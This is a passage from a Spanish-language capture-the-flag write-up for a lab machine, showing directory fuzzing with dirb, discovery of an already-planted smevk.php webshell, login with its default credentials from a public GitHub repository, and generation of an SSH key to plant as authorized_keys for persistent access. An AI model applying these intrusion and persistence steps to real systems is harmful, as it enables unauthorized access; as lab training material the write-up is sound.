 Si ejecutamos el fuzzer **dirb** con la lista que hemos generado:

``` bash
$ dirb http://10.10.10.181/ ./list1

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Fri Jun 26 11:03:39 2020
URL_BASE: http://10.10.10.181/
WORDLIST_FILES: ./list1

-----------------

GENERATED WORDS: 31

---- Scanning URL: http://10.10.10.181/ ----
+ http://10.10.10.181/smevk.php (CODE:200|SIZE:1261)
                                                                                                                                                                                                                                         
-----------------
END_TIME: Fri Jun 26 11:03:41 2020
DOWNLOADED: 31 - FOUND: 1

```

Si nos conectamos a la url http://10.10.10.181/smevk.php, econtramos que ya esta subida la webshell.
Para acceder utilizamos las credenciales por defecto, que las hemos encontrado en el propio php de un repositiorio [github](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php)

En la webshell podemos realizar muchas acciones, pero para trabjar mas comodos nos vamos a subir una  key ssh.

```
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/segsalvaje/.ssh/id_rsa): id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:zOtQrmWldqu6iPjY22AV8FfLB/tFcjwtV/h+ZVmdYeo segsalvaje@kali
The key's randomart image is:
+---[RSA 3072]----+
|  .     o ..o. ==|
|   o   o + ++ *.o|
|    o . + . .= .o|
|     o o o ..  .+|
|    .   S o  E o.|
|   .   o +      o|
|  o   . B .     .|
| = + . B . .     |
|o.=.o +oo..      |
+----[SHA256]-----+

```
Una vez tenemos la keys generada, renombramos el fichero a *authorized_keys* para subirlo a la maquina, y que nos acepte nuestra cable privada.
